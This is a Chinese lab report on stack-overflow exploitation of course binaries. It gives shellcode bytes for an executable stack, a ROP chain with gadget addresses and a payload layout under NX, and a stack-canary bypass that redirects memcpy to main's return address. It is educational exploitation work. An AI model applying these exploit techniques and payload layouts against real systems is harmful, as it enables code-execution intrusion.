

## 七、栈空间执行：把机器码放入输入缓冲区

### 7.1 机器码的内容

`payload_dark.py` 生成的栈中代码共 23 字节，逻辑为：

```asm
sub rsp, 0x40
push 4
pop rdi
mov eax, 0x401a87
call rax
xor edi, edi
mov eax, 0x401880
call rax
```

它先调整栈空间并将 `4` 放入 RDI，调用 `grade_eval()`；随后将 RDI 清零并调用 `exit@plt`，使实验结束路径更加明确。

机器码字节如下：

```text
48 83 ec 40 6a 04 5f b8 87 1a 40 00 ff d0
31 ff b8 80 18 40 00 ff d0
```

payload 在代码后补一个 `NOP`，再附上栈缓冲区地址 `0x721000800fd0`。GDB 通过 `p/x $rbp-0x10` 获得该地址，覆盖返回地址后让 `ret` 转而从这段缓冲区开始取指。



### 7.2 执行权限与实际映射

`readelf` 对 `dark-calc` 的 `GNU_STACK` 输出显示为 `RW`。同时，GDB 的 `info proc mappings` 显示，包含本次局部缓冲区地址 `0x721000800fd0` 的匿名映射范围为 `0x721000001000–0x721000801000`，权限显示为 `rwxp`。也就是说，本次运行中缓冲区地址所在的实际映射具有执行权限。

这里需要保留两个观察的区别：ELF 的 `GNU_STACK` 标志是一个文件级信息；GDB 显示的是运行时进程映射。本次报告以实际缓冲区所在映射的权限解释为何栈中代码能够执行，同时保留 `readelf` 输出作为对照。不同环境或不同装载方式下，不能仅凭本次截图推断所有程序的栈都可执行。



### 7.3 运行结果

GDB 在 `grade_eval()` 内部停下时，RDI 为 `4`。继续执行后输出：

```text
Hope A will be your grade!
[Inferior 1 ... exited normally]
```

这证明返回地址已转向输入缓冲区中的机器码，代码能够设置参数、调用目标函数，并按 payload 中的退出路径正常结束。





## 八、NX 环境下的 ROP

### 8.1 NX 的意义

`dark-calc-nx` 的 `GNU_STACK` 标志为 `RW`，没有执行权限标志。与上一任务不同，这里不再把新写入的栈字节当作机器指令执行，而是复用程序已有可执行区域中的短指令序列，即 Gadget。每个 Gadget 通常以 `ret` 结束，CPU 通过栈上的下一个地址继续执行，因此可以把多个已有代码片段串成 ROP 链。



### 8.2 两个关键 Gadget

本次 `dark-calc-nx` 中使用的 Gadget 为：

**Gadget 1：`0x401a2a`**

```asm
pop rbx
pop rbp
pop r12
pop r13
pop r14
pop r15
ret
```

它连续从栈中弹出 6 个值，分别写入这些寄存器，然后继续执行下一个地址。

**Gadget 2：`0x401a72`**

```asm
pop rdi
imul esi, DWORD PTR [rbx+0x5f], 0x5f656854
ret
```

这个 Gadget 的第一条指令可以设置 RDI，但后面的 `imul` 还会读取 `[rbx+0x5f]`。因此不能只设置 RDI 而忽略副作用。本次将 RBX 设为 `0x602000`，使读取地址为 `0x60205f`，并通过 GDB 检查该位置可读。`imul` 修改 ESI，但 `grade_eval()` 的参数读取自 EDI，所以这一副作用不影响目标参数。





### 8.3 ROP 链布局

`input()` 的缓冲区仍为 16 字节，保存 RBP 和返回地址分别位于偏移 16 和 24。此次 payload 总长为 136 字节，结构如下：

| 偏移 | 内容 | 作用 |
|---:|---|---|
| 0–15 | `A` × 16 | 填满局部数组 |
| 16–23 | `B` × 8 | 覆盖保存 RBP |
| 24–31 | `0x401a2a` | Gadget 1 |
| 32–79 | `0x602000`、0、0、0、0、0 | 为 Gadget 1 的六次 `pop` 提供数据 |
| 80–87 | `0x401a72` | Gadget 2 |
| 88–95 | `4` | `grade_eval` 参数 |
| 96–103 | `0x401978` | `grade_eval()` |
| 104–111 | `0x401a72` | 再次使用 Gadget 2 |
| 112–119 | `0` | `exit(0)` 的参数 |
| 120–127 | `0x401a4c` | `ret`，调整栈对齐 |
| 128–135 | `0x4016e0` | `exit@plt` |

执行路径为：

```text
input 返回
  -> Gadget 1：设置 RBX 等寄存器
  -> Gadget 2：设置 RDI = 4
  -> grade_eval(4)
  -> Gadget 2：设置 RDI = 0
  -> ret：调整栈对齐
  -> exit(0)
```

### 8.4 验证结果

GDB 在 `grade_eval()` 入口处观察到：

```text
RIP = 0x401978
RDI = 0x4
RBX = 0x602000
RSP = 0x...25e8
```

RIP 与 RDI 证明程序进入了目标函数且参数为 4；RBX 的值满足 Gadget 2 的内存读取条件。RSP 地址末位为 `8`，即入口时 `RSP mod 16 = 8`，符合 x86-64 System V ABI 对普通函数入口的对齐状态。

继续执行后，程序输出 `Hope A will be your grade!`，并显示进程正常退出。这是本实验 ROP 链成功的直接证据。



## 九、Canary：通过受控 `memcpy` 改变复制目标

### 9.1 确认 Stack Protector

对 `dark-log` 执行 `readelf -sW`，可以看到程序引用了 `__stack_chk_fail`。`input()` 的反汇编也显示：

```asm
mov rax, QWORD PTR fs:0x28
mov QWORD PTR [rbp-0x8], rax
```

函数返回前再次读取栈中保存值，与 `fs:0x28` 的当前值进行比较；若不同则调用 `__stack_chk_fail@plt`。`main()` 和 `grade_eval()` 也存在相应检查。



### 9.2 还原 `dark-log` 的栈帧

结合结构体源码与 `input()` 的反汇编，得到下列布局。偏移均相对于 `expression` 的起始地址，即 `rbp-0x120`：

| 偏移 | 内容 |
|---:|---|
| 0–127 | `expression[128]` |
| 128–255 | `logMsg[128]` |
| 256–259 | `len` |
| 260–267 | `pad[8]` |
| 268–279 | 编译器填充 |
| 280–287 | `input()` 的 Canary |
| 288–295 | 保存的 RBP |
| 296–303 | `input()` 的返回地址 |

`len` 位于 `rbp-0x20`，相对 `expression` 起始地址的偏移为 `0x100`（256）。Canary 位于 `rbp-0x8`，相对 `expression` 的偏移为 `0x118`（280）。



### 9.3 `len` 如何控制 `memcpy` 目标

反汇编中的地址计算可以还原为：

```c
destination = f.logMsg + f.len;
memcpy(destination, f.expression, 128);
```

其中：

```text
expression = rbp - 0x120
logMsg     = rbp - 0x0a0
len        = rbp - 0x020
```

因此：

```text
destination = rbp - 0xa0 + len
```

`input()` 是由 `main()` 调用的。根据 `main()` 的栈帧布局，`main` 的返回地址位于 `input` 的 RBP 加 `0x28` 处。令 `memcpy` 的目标等于这个位置：

```text
rbp - 0xa0 + len = rbp + 0x28
len = 0xc8 = 200
```

因此，只要输入能将结构体中的 `len` 改成 200，后续固定长度的 128 字节复制就会从 `expression` 起始位置复制到调用者 `main()` 的返回地址处。

这里不是让 `gets()` 直接跨过 Canary 覆盖返回地址，而是让程序自己的 `memcpy()` 使用被输入改变的偏移，把数据写到 Canary 之后的控制数据位置。

### 9.4 `payload_canary.py` 的布局

截图中的 payload 由 260 字节有效数据和输入终止换行构成：

| 偏移 | 内容 | 作用 |
|---:|---|---|
| 0–7 | `0x4018a4` | `ret`，调整入口栈对齐 |
| 8–15 | `0x4018a3` | `pop rdi; ret` |
| 16–23 | `4` | `grade_eval` 参数 |
| 24–31 | `0x401677` | `dark-log` 中的 `grade_eval()` |
| 32–39 | `0` | 当前链条的返回地址占位 |
| 40–255 | `A` 填充 | 补足 128 字节复制源并到达 `len` 字段 |
| 256–259 | `0xc8 00 00 00` | 将 `len` 设置为 200 |
| 260 | `gets()` 写入的结束符 | 位于 Canary 之前 |

`dark-log` 中通过字节序列 `41 5f c3` 确认了从 `0x4018a3` 开始的 `pop rdi; ret`，而 `0x4018a4` 是单独的 `ret`。`grade_eval()` 地址为 `0x401677`。

